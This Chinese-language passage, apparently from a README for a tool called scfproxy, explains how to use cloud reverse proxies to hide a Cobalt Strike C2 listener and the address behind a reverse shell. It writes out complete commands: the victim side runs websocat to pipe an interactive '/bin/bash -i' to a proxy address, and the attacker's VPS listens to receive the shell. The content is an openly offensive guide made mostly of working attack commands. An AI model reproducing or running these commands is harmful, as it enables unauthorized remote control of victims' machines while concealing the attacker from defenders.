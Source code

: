 基于反向代理可有如下使用方法，

#### C2 隐藏

以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```

![cs.png](img/cs.png)

#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：

```console
websocat ws-l:0.0.0.0:port - --binary -E --uncompress-zlib
```

效果如图：
![reverse_shell.png](img/reverse_shell.png)
